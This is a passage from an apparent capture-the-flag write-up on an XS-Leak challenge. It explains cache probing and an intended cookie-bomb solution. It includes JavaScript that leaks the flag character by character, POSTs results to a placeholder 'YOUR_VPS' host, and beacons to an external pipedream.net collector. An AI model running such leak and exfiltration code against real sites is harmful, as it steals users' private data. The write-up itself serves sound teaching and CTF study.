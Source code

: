 ``` js

  async function report(data) {
    console.log(data)
    // TODO: change to your VPS
    return fetch('https://YOUR_VPS/', { method: 'POST', body: data, mode: 'no-cors' }).catch(err => err);
  }
}
```

We can leak the charset first, and the speed will be much faster. There are still some parts that can be improved, and the speed should be faster.

Later, teammates posted another writeup: [UIUCTF 2021- yana](https://ctf.zeyu2001.com/2021/uiuctf-2021/yana#this-shouldnt-have-worked), it seems that headless chrome has no cache partitioning at the moment.

I tested it myself and found that it is still the same now, so actually we don't need other same site domain. It still works if you put this exploit on your own website.

### Intended

The intended solution should be the cookie bomb I mentioned above. First, set a lot of cookies, and then use the feature that the URL of success and failure are different.

If successful, the URL will be longer, the request will be too large to handle by the server so return an error http status code. If the search fails, nothing will happen because URL is short.

The script below is from Strellic, you need to run it on another same site domain:

``` html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
    const $ = document.querySelector.bind(document);
    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
    let i = 0;
    const stuff = async (len=3500) => {
        let name = Math.random();
        $("form").target = name;
        let w = window.open('', name);
        $("#f").value = "_".repeat(len);
        $("#f").name = i++;
        $("form").submit();
        await sleep(100);
    };
    const isError = async (url) => {
        return new Promise(r => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => r(false);
            script.onerror = () => r(true);
            document.head.appendChild(script);
        });
    }
    const search = (query) => {
        return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
    };
    const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
    const url = "//en4u1nbmyeahu.x.pipedream.net/";
    let known = "actf{";
    window.onload = async () => {
        navigator.sendBeacon(url + "?load");
        await Promise.all([stuff(), stuff(), stuff(), stuff()]);
        await stuff(1600);
        navigator.sendBeacon(url + "?go");
```